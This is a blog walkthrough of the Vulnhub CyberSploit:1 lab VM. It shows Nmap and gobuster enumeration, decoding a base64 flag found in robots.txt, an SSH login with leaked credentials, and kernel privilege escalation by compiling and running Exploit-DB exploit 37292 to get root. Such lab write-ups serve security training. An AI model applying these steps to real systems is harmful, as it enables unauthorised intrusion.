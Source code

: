 ```yaml
---
date: 2020-07-27 00:01:45
layout: post
title: "CyberSploit 1 Vulnhub Walkthrough"
subtitle:
description: CyberSploit:1 is a boot2root VM from Vulnhub. This is the first part of the Vulnhub's CyberSploit Series.
image: /assets/img/uploads/cybersploit-1/cyber-robot.png
optimized_image: /assets/img/uploads/cybersploit-1/cyber-robot-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: cybersploit 1, cybersploit 1 vulnhub, cybersploit 1 walkthrough, cybersploit 1 vulnhub walkthrough, cybersploit 1 writeup, vulnhub cybersploit walkthrough, cybersploit writeup, infosec articles
---
```


Today I will be sharing a walkthrough of CyberSploit:1, a boot2root VM available on Vulnhub. This is the first part of the Vulnhub's CyberSploit Series and rated easy. It consists of three flags and our goal is to read all the three flags. I have added the IP address of the machine to the hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.7     cybersploit
```

## Enumeration 

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/initial cybersploit

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for cybersploit (192.168.1.7)
Host is up (0.00027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hello Pentester!
MAC Address: 08:00:27:FF:BD:6F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```
We see a ssh port open and a port 80 open which is running an Apache 2.2.22 web server. Looking at port 80 on the web browser, we see a GIF. Looking at the page source, I found a username <b>itsskv.</b> This might be useful in future! 

<center><br><br>
<img src="/assets/img/uploads/cybersploit-1/username.png">
</center>

This web application is not much functional, so next I decided to run a gobuster scan to look for hidden pages.

```r
root@kali:~# gobuster dir -u http://cybersploit -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://cybersploit
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/index (Status: 200)
/index.html (Status: 200)
/robots (Status: 200)
/robots.txt (Status: 200)
/hacker (Status: 200)
/server-status (Status: 403)
===============================================================
Finished
===============================================================
```

The hacker page is simply the GIF we see in the home page but robots or robots.txt has some interesting information.

<center><br>
<img src="/assets/img/uploads/cybersploit-1/robots.png">
</center>

It contains some string which is most probably base64, after decoding it, we can read our first flag! That was easy!

```r
root@kali:~# echo -n R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9 | base64 -d

Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}
```

We can now login into the target machine via ssh using username <b>itsskv</b> and password:<br><b>cybersploit{youtube.com/c/cybersploit}.</b>

```r
root@kali:~# ssh itsskv@cybersploit

Warning: Permanently added the ECDSA host key for IP address '192.168.1.7' to the list of known hosts.

itsskv@cybersploits password:
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

332 packages can be updated.
273 updates are security updates.

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Sat Jun 27 10:14:39 2020 from cybersploit.local
itsskv@cybersploit-CTF:~$
```

After logging in as user itsskv, I found a <b>flag2.txt</b> in the same directory, but this flag is encoded into binary. 

```r
itsskv@cybersploit-CTF:~$ cat flag2.txt 
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

We can easily decode it using <a href="https://gchq.github.io/CyberChef/" rel=”nofollow”>Cyber Chef</a> and read our second flag!

<center><br>
<img src="/assets/img/uploads/cybersploit-1/cyberchef.png">
</center>

## Privilege Escalation

The root is quite simple. Looking at the output of <b>uname -a</b> command, I found that this machine is using an old version of kernel which is vulnerable to many exploits. 

```r
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

I decided to go with <a href="https://www.exploit-db.com/exploits/37292" rel=”nofollow”>this</a> exploit. Just download and compile this exploit in the target machine and execute the binary.

```r
itsskv@cybersploit-CTF:~$ gcc 37292.c -o exploit
itsskv@cybersploit-CTF:~$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
# python -c 'import pty;pty.spawn("/bin/bash")'
root@cybersploit-CTF:/home/itsskv#
```
Yeaah! We are root! Now we can read our final flag present in the root directory.

```r
root@cybersploit-CTF:/home/itsskv# cat /root/finalflag.txt 
  ______ ____    ____ .______    _______ .______          _______..______    __        ______    __  .___________.
 /      |\   \  /   / |   _  \  |   ____||   _  \        /       ||   _  \  |  |      /  __  \  |  | |           |
|  ,----' \   \/   /  |  |_)  | |  |__   |  |_)  |      |   (----`|  |_)  | |  |     |  |  |  | |  | `---|  |----`
|  |       \_    _/   |   _  <  |   __|  |      /        \   \    |   ___/  |  |     |  |  |  | |  |     |  |     
|  `----.    |  |     |  |_)  | |  |____ |  |\  \----.----)   |   |  |      |  `----.|  `--'  | |  |     |  |     
 \______|    |__|     |______/  |_______|| _| `._____|_______/    | _|      |_______| \______/  |__|     |__|     
                                                                                                                  

   _   _   _   _   _   _   _   _   _   _   _   _   _   _   _  
  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
 ( c | o | n | g | r | a | t | u | l | a | t | i | o | n | s )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 

flag3: cybersploit{Z3X21CW42C4 many many congratulations !}

if you like it share with me https://twitter.com/cybersploit1.

Thanks !
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/benbely" rel=”nofollow”>Mia Ditmanson.</a>